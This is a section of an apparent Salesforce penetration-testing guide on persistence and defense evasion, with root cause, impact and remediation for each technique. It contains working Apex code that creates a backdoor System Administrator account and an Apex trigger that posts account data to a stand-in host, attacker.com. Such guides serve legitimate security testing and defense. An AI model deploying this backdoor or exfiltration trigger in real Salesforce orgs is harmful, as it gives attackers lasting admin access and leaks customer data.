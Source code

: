 
## Persistence & Defense Evasion

### 11.1 Backdoor via Malicious Apex
**Description:** Deploying malicious Apex code provides persistent access or backdoors.  
**Root Cause:** Users with `Customize Application` or `Author Apex` can deploy code.  
**Enumeration Techniques:**
- **SOQL Query (Developer Console):**
  ```sql
  SELECT Name, NamespacePrefix FROM ApexClass WHERE Name LIKE '%admin%' OR Name LIKE '%backdoor%'
  ```
- **Exploitation Steps:**
  1. If code deployment is in scope, deploy a malicious class to create a backdoor admin user:
     ```apex
     public class AddAdmin {
         public static void escalatePrivs() {
             Profile p = [SELECT Id FROM Profile WHERE Name='System Administrator'];
             User u = new User(
                 Alias = 'pwned',
                 Email='attacker@example.com',
                 EmailEncodingKey='UTF-8',
                 LastName='Admin',
                 LanguageLocaleKey='en_US',
                 LocaleSidKey='en_US',
                 ProfileId = p.Id,
                 TimeZoneSidKey='America/Los_Angeles',
                 UserName='pwned_user@example.com.test'
             );
             insert u;
         }
     }
     ```
  2. Execute via Developer Console: `AddAdmin.escalatePrivs();`.
**Impact:** Persistent admin access for long-term compromise.  
**Remediation:** Restrict code deployment to trusted admins; enforce code reviews; monitor Apex changes via audit logs.

### 11.2 Data Exfiltration via Unmonitored Channels
**Description:** Use legitimate Salesforce features to exfiltrate data covertly.  
**Root Cause:** Lack of monitoring on outbound channels like email or callouts.  
**Exploitation Steps:**
  1. Modify an Apex trigger to send data to an attacker server via HTTP callout:
     ```apex
     trigger AccountTrigger on Account (after insert) {
         for (Account a : Trigger.new) {
             HttpRequest req = new HttpRequest();
             req.setEndpoint('https://attacker.com/log');
             req.setMethod('POST');
             req.setBody('Stolen Data: ' + a.Name + ' - Revenue: ' + a.AnnualRevenue);
             new Http().send(req);
         }
     }
     ```
  2. Configure email alerts to send reports to external addresses.
**Impact:** Covert data theft bypassing DLP.  
**Remediation:** Monitor outbound callouts and emails; restrict external communications in Apex code.

---